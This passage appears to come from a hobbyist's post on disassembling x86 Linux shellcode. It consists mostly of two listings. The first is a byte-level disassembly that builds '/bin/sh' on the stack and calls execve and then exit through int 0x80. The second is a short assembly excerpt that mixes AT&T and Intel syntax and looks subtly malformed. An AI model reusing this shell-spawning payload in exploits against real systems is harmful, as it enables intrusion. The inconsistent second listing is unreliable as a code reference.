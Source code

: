 ```
52: d1 e0                   shl    eax,1
54: d1 e0                   shl    eax,1
56: d1 e0                   shl    eax,1
58: d1 e0                   shl    eax,1
5a: d1 e0                   shl    eax,1
5c: d1 e0                   shl    eax,1
5e: d1 e0                   shl    eax,1
60: b1 69                   mov    cl,0x69
62: 01 c8                   add    eax,ecx
64: d1 e0                   shl    eax,1
66: d1 e0                   shl    eax,1
68: d1 e0                   shl    eax,1
6a: d1 e0                   shl    eax,1
6c: d1 e0                   shl    eax,1
6e: d1 e0                   shl    eax,1
70: d1 e0                   shl    eax,1
72: d1 e0                   shl    eax,1
74: b1 62                   mov    cl,0x62
76: 01 c8                   add    eax,ecx
78: d1 e0                   shl    eax,1
7a: d1 e0                   shl    eax,1
7c: d1 e0                   shl    eax,1
7e: d1 e0                   shl    eax,1
80: d1 e0                   shl    eax,1
82: d1 e0                   shl    eax,1
84: d1 e0                   shl    eax,1
86: d1 e0                   shl    eax,1
88: b1 2f                   mov    cl,0x2f
8a: 01 c8                   add    eax,ecx
8c: 50                      push   eax
8d: 90                      nop
8e: 31 c0                   xor    eax,eax
90: 89 e3                   mov    ebx,esp
92: 89 c1                   mov    ecx,eax
94: 89 c2                   mov    edx,eax
96: b0 0b                   mov    al,0xb
98: cd 80                   int    0x80
9a: 31 c0                   xor    eax,eax
9c: 40                      inc    eax
9d: 90                      nop
9e: cd 80                   int    0x80
```
This took hours to get because the disassembler needs other formatting and ran into some problems like the commands were wrong in that shellcode so had to find the correct to code to run. anyway here is the actual assembly code i ran in a dissasembler

```
xor    %eax,%eax
xor    %ecx,%ecx
push   %eax
nop
xor    %eax,%eax
mov    cl,0x68
add    %eax,%ecx
shl    %eax,1
shl    %eax,1
shl    %eax,1
shl    %eax,1
shl    %eax,1
shl    %eax,1
shl    %eax,1
shl    %eax,1
mov    %cl,0x73
add    %eax,%ecx
```